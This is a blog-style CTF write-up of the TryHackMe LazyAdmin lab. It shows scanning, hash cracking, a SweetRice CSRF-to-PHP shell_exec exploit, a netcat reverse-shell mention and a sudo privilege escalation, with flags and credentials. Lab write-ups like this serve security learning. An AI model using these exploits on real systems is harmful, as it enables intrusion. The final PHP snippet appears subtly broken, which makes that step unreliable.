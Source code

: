 I recently re-sparked my interest for InfoSec and started dabbling with a couple of hacking platforms and war games and stumbled over [TryhackMe](https://www.tryhackme.com), which so far has been an absolutely fantastic learning resource for information security.

This post marks my first CTF write up, so if you stumble over this, keep this in mind and if you have suggestions for improving the flow of the post, or the general content, feel free to send me en email about that!

With all of that out of the way, let's jump into the [LazyAdmin](https://tryhackme.com/room/lazyadmin) CTF on TryHackMe.

## Lazy Admin

To start off, we'll use `nmap` to find out which ports are running:

```bash
nmap  -vv -sV -sC 10.10.60.2 -A -T4
```

We get the ports 22 and 80. Next, let's try to navigate to the website on port 80. There we see the basic Apache welcome page.

To see what else is running on this web server, let's use `gobuster` to find other files and directories

```bash
gobuster -u http://10.10.60.2/ -w /opt/SecLists/Discovery/Web-Content/big.txt -x "php,txt,html"
```

This uses the [SecLists](https://github.com/danielmiessler/SecLists) repo's `Web-Content/big.txt` wordlist and we'll initially try for .php, .txt and .html files.

The first run gives us the `/content` folder and if we navigate there in our browser, we see an in-progress SweetRice CMS page.

At this point, it makes sense to go to [Exploit DB](https://www.exploit-db.com/) and search for SweetRice. There are several interesting CVE's, but we don't know the version yet.

Let's run `gobuster` again, to find resources inside of `content`:

```bash
gobuster -u http://10.10.60.2/content/ -w /opt/SecLists/Discovery/Web-Content/big.txt -x "php,txt,html"
```

This gives us several things, such as the `/as` folder and the `/inc` folder. Under `/as` we find an administrator login, which is what we were looking for. Inside the `/inc` folder, interestingly, we find MySQL backup, which we immediately download.

Also, there are license.txt and changelog files and folders, which provide us with some info about the version - we're dealing with 1.5.0, so we can use the latest exploits on Exploit-DB!

Opening the downloaded MySQL backup, we stumble upon the password and the user name. The password is `42f749ade7f9e195bf475f37a44cafcb` and the user name is `manager`.

We can use `john the ripper` to crack the password, which looks like MD5:

```bash
john pw.txt --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --format=RAW-MD5
```

We use the `rockyou` password list and immediately get `Password123` as a password.

With that, we can login to the Admin page! Nice.

Next, let's check out the exploits at Exploit DB. There, we find [this](https://www.exploit-db.com/exploits/40700) exploit, which enables us to do PHP code execution via a CSRF bug.

This sounds promising, as with remote code execution, we should be able to read out the user and root flag from the server, or simply open a reverse shell, letting us basically connect to the server via ssh.

If we look at the exploit on Exploit-DB, it looks like the following:

```php
<html>
    <body onload="document.exploit.submit();">
        <form action="http://10.10.60.2/content/as/?type=ad&mode=save" method="POST" name="exploit">
            <input type="hidden" name="adk" value="hacked"/>
            <textarea type="hidden" name="adv">
            <?php
                echo '<h1> Hacked </h1>';
            ?>
            &lt;/textarea&gt;
        </form>
    </body>
</html>
```

We create a new .html file and paste this code in. However, instead of the `Hacked` message, we can use the `shell_exec` method to execute shell commands on the server, so we replace it with:

```php
$output = shell_exec('ls /home');
echo "<pre>$output</pre>";
```

This directs us to the Ads page in the SweetRice backend, with a new ad active. If we now access this using `http://10.10.60.2/content/inc/ads/hacked.php` in this case, then we see the executed PHP code, which shows us the contents of `/home`.

This way, we can see that the username is `itguy`. Next we can `ls /home/itguy` to see the files inside of the user's folder. There, we can already get the user flag using `cat /home/itguy/user.txt`. The flag is `THM{63e5bce9271952aad1113b6f1ac28a07}`.

With this exploit, we could also execute a [reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), which together with a locally opened netcat session (`nc -lvnp 4444`) enables us to gain access to the server.

In this case, we'll just continue to execute commands using the exploit though. The next thing we need to do is to privilege-escalate. We execute `sudo -l` and see, that the `www-data` user, which is the user running the web app, can execute the `backup.pl` file.

Next, we can look at the file using `cat /home/itguy/backup.pl` and we see that it simply calls `/etc/copy.sh`, which is a file we have access to. Now we have a way to get to the root flag - we overwrite the `/etc/copy.sh` file with a script for reading out the `/root/root.txt` file and we can do all of that in our CSRF exploit:

```php
<html>
    <body onload="document.exploit.submit();">
        <form action="http://10.10.60.2/content/as/?type=ad&mode=save" method="POST" name="exploit">
            <input type="hidden" name="adk" value="hackedy hacked"/>
            <textarea type="hidden" name="adv">
            <?php
                echo "<pre>$output</pre>";
                $output1 = shell_exec('echo "cat /root/root.txt > /etc/copy.sh"');
                echo "<pre>$output1</pre>";
                $output2 = shell_exec('sudo /usr/bin/perl /home/itguy/backup.pl');
                echo "<pre>$output2</pre>";
            ?>
            &lt;/textarea&gt;
        </form>
    </body>
</html>
```

When we execute the exploit again, we get the root flag `THM{6637f41d0177b6f37cb20d775124699f}`.

All Done!

## Conclusion

What a nice entry-level CTF and one of the first unguided ones I was able to, after going through almost all entry-level THM rooms mentioned [here](https://blog.tryhackme.com/free_path/) before, finish without looking at any writeups, or any external help myself!



#### Resources

* [TryHackMe LazyAdmin](https://tryhackme.com/room/lazyadmin)
